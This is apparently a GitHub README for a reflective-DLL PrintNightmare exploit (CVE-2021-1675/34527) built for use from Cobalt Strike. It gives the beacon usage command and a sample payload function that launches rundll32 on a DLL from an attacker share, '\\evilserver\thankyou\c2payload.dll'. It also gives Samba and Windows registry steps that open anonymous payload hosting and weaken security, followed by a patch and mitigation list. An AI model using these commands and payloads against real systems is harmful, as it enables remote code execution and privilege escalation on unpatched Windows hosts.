


# PrintNightmare exploit #

**CVE-2021-1675 / CVE-2021-34527** exploit.

Reflective Dll implementation of the PrintNightmare PoC by Cornelis de Plaa ([@Cneelis](https://twitter.com/cneelis)). The exploit was originally created by Zhiniang Peng ([@edwardzpeng](https://twitter.com/edwardzpeng)) & Xuefeng Li ([@lxf02942370](https://twitter.com/lxf02942370)).

* It can be used as Remote Code Execution (RCE) exploit (screenshot 1),
* It can be used for Privilege Escalation (screenshot 2).

This implementation has some advantages compared to other public exploits:

* It uses MS-PAR protocol instead of MS-RPRN (credits [@cube0x0](https://twitter.com/cube0x0)).
* It is in Reflective DLL form, so can be used directly from Cobaltstrike or other C2 framework.
* It automatically finds the path of the printer driver.

### Usage ###

Within Cobaltstrike Beacon console:

```
PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
```

The payload DLL is started by spoolsv.exe (print spool service) from DllMain and should thus avoid API calls which require synchronisation to avoid deadlocks.
We recommend to let this payload DLL perform a CreateProcess call to something like this:


```
void NothingToSeeHere() {
	STARTUPINFO sui;
	PROCESS_INFORMATION pi;

	RtlZeroMemory(&sui, sizeof(sui));
	RtlZeroMemory(&pi, sizeof(pi));
	sui.cb = sizeof(sui);

	GetStartupInfo(&sui);
	LPCWSTR lpwApplicationName = L"C:\\Windows\\System32\\rundll32.exe";
	LPWSTR lpwCommandLine = (LPWSTR)L"C:\\Windows\\System32\\rundll32.exe \\\\evilserver\\thankyou\\c2payload.dll,MyExport";

	if (!CreateProcess(lpwApplicationName, lpwCommandLine, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &sui, &pi)) {
		return;
	}

	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);

	return;
}
```

*Screenshot 1: using this exploit for RCE*


*Screenshot 2: using this exploit for LPE*
 

*SMB server configuration*

Source: https://github.com/cube0x0/CVE-2021-1675#smb-configuration

Easiest way to host payloads is to use samba and modify /etc/samba/smb.conf to allow anonymous access:

```
[global]
     map to guest = Bad User
     server role = standalone server
     usershare allow guests = yes
     idmap config * : backend = tdb
     smb ports = 445
[smb]
     comment = Samba
     path = /tmp/
     guest ok = yes
     read only = no
     browsable = yes
     force user = smbuser
```

From windows it's also possible:

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

### Compile instructions: ###

This project is written in C and assembly.
You can use Visual Studio to compile it from source.
We are not releasing binaries, so you will have to compile yourself.

### Mitigation ###

In July 2021 Microsoft released an emergency update to fix the PrintNightmare vulnerability (CVE-2021-34527).
Make sure you run Windows update and install the following update:

* Version 21H1, 20H1, 2004 – KB5004945 (Build 19043.1083).
* Version 1909 – KB5004946 (Build 18363.1646).
* Version 1809 and Windows Server 2019 – KB5004947 (Build 17763.2029).
* Version 1803 – KB5004949
* Version 1507 – KB5004950.
* Windows 8.1 and Windows Server 2012 – KB5004954 and KB5004958 (security only).
* Windows 7 SP1 and Windows Server 2008 R2 SP1 – KB5004953 and KB5004951 (security only)
* Windows Server 2008 SP2 – KB5004955 and KB5004959 (security only).

For more information, see Microsoft guidance:

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527

This patch also offers the ability to prevent non-administrators from installing any print drivers on a print server (incl. signed drivers), by configuring the “RestrictDriverInstallationToAdministrators” registry value.
For information on this option, see:

https://support.microsoft.com/en-us/topic/kb5005010-restricting-installation-of-new-printer-drivers-after-applying-the-july-6-2021-updates-31b91c02-05bc-4ada-a7ea-183b129578a7

Other option to mitigate the PrintNightmare vulnerability includes:

* Disable Print Spooler service‍ (on Domain Controllers & non-print servers)‍.
* Disable inbound remote printing through Group Policy.
* Block inbound connectivity using a firewall.
* Ensure Point and Print installation prompts are enabled.
